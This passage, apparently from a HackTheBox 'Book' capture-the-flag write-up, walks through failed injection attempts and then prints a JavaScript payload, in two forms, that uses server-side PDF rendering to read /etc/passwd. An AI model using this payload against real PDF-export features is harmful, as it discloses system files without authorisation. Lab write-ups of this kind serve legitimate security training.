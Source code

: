 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-10-HackTheBox-Book/2021-09-10-HackTheBox-Book%2008:32:00.png)

## Things Failed

I tried a lot of stuff in this php files. But nothing seems to work.

I looked for:

- SQLInjection in all forms.

- XSS in all pages.

- XSRF for GET and POST requests.

No success. =/

## PDF - HTML - LFI

I found on the source code of collections.php something interesting

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-10-HackTheBox-Book/2021-09-10-HackTheBox-Book%2008:35:47.png)

`<a href="/admin/collections.php?type=users">PDF</a>`

Seems that the when we Export the Collections on the admin table it's rendering some kind of html. So we can exploit this using javascript.

So we start looking for it on the internet

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-10-HackTheBox-Book/2021-09-10-HackTheBox-Book%2010:48:33.png)

We found to good references

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

And

https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

We found a good payload to test on the second one

```js
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)
};
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

One liner

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
Now we try to put it on a collection and after export the PDF to see if it's triggering the file read
